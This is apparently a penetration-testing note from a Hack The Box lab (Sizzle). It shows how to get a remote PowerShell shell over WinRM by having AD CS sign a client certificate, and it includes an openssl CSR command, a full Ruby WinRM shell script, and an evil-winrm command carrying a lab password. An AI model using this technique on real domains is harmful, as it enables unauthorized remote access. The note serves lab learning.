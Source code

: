 Resources:
* [Certificate authentication in Win-RM](http://www.hurryupandwait.io/blog/certificate-password-less-based-authentication-in-winrm)
* [offsec journey notes](https://notes.offsec-journey.com/enumeration/winrm) 
* [win-rm.rb](https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell.rb)

After some research we identify that this /certsrv endpoint means that we can authenticate via WINRM by creating a certificate this is an AD CS feature. As we can check on this [notes](https://notes.offsec-journey.com/enumeration/winrm) all we need to do is follow this steps:
- Pre-requisites: Access to Active Directory Certificate Services
- Default location: `http://<IP>/certsrv/`
- Script Link: [win-rm.rb](https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell.rb)
```bash
#Certificate signing request
openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr # All the options required are by default
```
Then we proceed to sign certificate as user by Sign-in to `http://10.10.10.103/certsrv`  and paste the content of amanda.csr into the text field:
![[Pasted image 20230129030758.png]]
Download base64-encoded certificate:
![[Pasted image 20230129030850.png]]
And modify the winrm_shell.rb script:
#Note `remember to run the script in the same folder as in certnew.cer and amanda.key`
```bash
require 'winrm'
# Author: Alamot
conn = WinRM::Connection.new( 
  endpoint: 'https://10.10.10.103:5986/wsman',
  transport: :ssl,
  :client_cert => 'certnew.cer',
  :client_key => 'amanda.key',
  :no_ssl_peer_verification => true
)
command=""
conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
```
Finally run the script and you're in:
```bash
ruby winrm_shell.rb
PS htb\amanda@SIZZLE Documents>
```
Examples:
[[Sizzle#^1d6877]]
### evil-winrm
It is also possible to authenticate via evil-winrm:
```bash
evil-winrm -S -c certnew.cer -k amanda.key -i 10.10.10.103 -u 'amanda' -p 'Ashare1972'
```